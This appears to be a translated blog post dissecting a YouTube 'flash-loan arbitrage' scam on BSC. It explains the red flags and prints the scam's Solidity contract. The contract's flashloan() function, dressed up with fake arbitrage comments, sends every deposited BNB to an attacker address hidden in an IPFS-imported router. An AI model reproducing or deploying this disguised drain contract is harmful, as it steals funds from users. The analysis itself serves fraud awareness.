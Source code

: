 # Analysis of a technical smart contract scam-一起智能合约骗局剖析


## 引言

我曾经在油管上看到一个叫做“我是如何在BSC上通过闪电贷套利获取BNB的"的视频。这个视频标题很引人注目，因为在2021年初每个关注加密领域的人知道BSC链，它是以太坊的克隆链，并且大家肯定听说过在这个区块链上的DeFi被多次攻击。

在以太坊上DeFi项目的成功后，币安创造了一个以太坊的复制品，据称币安资助了许多成功和先进的类以太坊DeFi项目。一切看起来都很好，直到2021年春天发生的一系列针对BSC的黑客攻击。

大多数攻击使用的是类似的方案：

1. DeFi合约在代币余额计算上存在漏洞。
2. 攻击者使用闪电贷去扩充代币池。
3. 攻击者随后利用这些漏洞去做一些大额交易或者代币互换操作，欺骗合约认为所有余额都是正确的。
4. 攻击者归还闪电贷后能从中获取些许利润。

所以，对于任何一个听说过这些攻击的人来说（包括我）都跃跃欲试。

## 骗局细节

该视频的作者分享了他们是如何通过闪电贷进行一笔套利并赚取一些BNB（当时BNB价值大概为400美金一个），而且，他们十分大方地分享了这项技术。

1. 观众要去部署一个智能合约去完成这项工作。
2. 为了支付交易费用，观众要在合同中存取0.25BNB。该合约属于观众，所以一切看起来很安全。
3. 然后，观众需要执行合约的闪电贷函数。

作者甚至将合约上传到了以太坊在线IDE Remix上，观众只需要点击几个按钮。不难想到很多人跟着这个教程做然后失去了0.25BNB，他们存入合约然后没有得到任何回报。在写本文的时候，已经有超过44个BNB（17500多美金）被从攻击者的地址存取。

## 如何识破这类骗局

先说第一点，明显的是0.25BNB的费用：对于BSC来说是比十分高昂的手续费，你几乎不会提交一个高额成本的交易。显然，攻击者不希望交易过于可疑，将金额设置的足够低，看起来就像一笔真正的费用，但大到足以满足他们的贪婪。

第二点，如果你不知道一个合约是如何运作的，永远不要去运行它。如下是观众们按照指引部署的合约（注释是作者添加的）。

```
pragma solidity ^0.5.0;

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

//BakerySwp Smart contracts
import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";

// Router
import "ipfs://QmUSQQNWBJ6snmx5FvafDSBCPCy63BLTpwM61dYjRzwLkN";

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

contract InitiateFlashLoan {
    RouterV2 router;
    string public tokenName;
    string public tokenSymbol;
    uint256 flashLoanAmount;

    constructor(
        string memory _tokenName,
        string memory _tokenSymbol,
        uint256 _loanAmount
    ) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        flashLoanAmount = _loanAmount;
        router = new RouterV2();
    }

    function() external payable {}

    function flashloan() public payable {
        // Send required coins for swap
        address(uint160(router.pancakeSwapAddress())).transfer(
            address(this).balance
        );

        //Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
        router.borrowFlashloanFromMultiplier(
            address(this),
            router.bakerySwapAddress(),
            flashLoanAmount
        );

        //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
        router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);

        //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
        router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);

        //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
        router.transferBnbToMultiplier(router.pancakeSwapAddress());

        //Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
        router.completeTransation(address(this).balance);
    }
}
```

一切看起来都很不错：

1. 导入官方的PancakeSwap、BakerySwap和Multiplier-Finance合约。
2. 导入一个路由合约(IPFS???)
3. 然后经过flashloan函数发送合约的以太给PancakeSwap的地址，接着从Multiplier-Finance借一笔闪电贷，进行套利交易，支付贷款，最后将一些利润返还给合约。

事实上，合约只做了一件事，它把所有存入合同的BNB发送到了攻击者的地址，IPFS导入看起来很可疑，他们在那里使用IPFS是有原因的：我们因此很难获得路由合约并查看它在做什么。

路由合约包含了很多行使得其混杂难以阅读，但我们不难发现一个重要的部分：

```
...

contract RouterV2 {
    ...
    function pancakeSwapAddress() public pure returns (address) {
        return 0x2593F13d5b7aC0d766E5768977ca477F9165923a;
    }

    ...
}
```

这是主合约将所有资金发送出去的地址。

## 总结

 这个骗局是个很有意思的案例：大多数骗局针对的是不懂技术的加密货币用户，而且这个骗局的目标人群是知道闪电贷攻击、部署合约以及交互的人，这不是一个大众群体，但是就像我们看见的一样，许多人任然成为骗局的受害者。

如果你喜欢阅读区块链安全和黑客事件，我非常推荐去订阅[Blockchain Threat Intelligence](https://blockthreat.substack.com/?utm_source=jeiwan.net&utm_medium=blog&utm_content=textlink)。


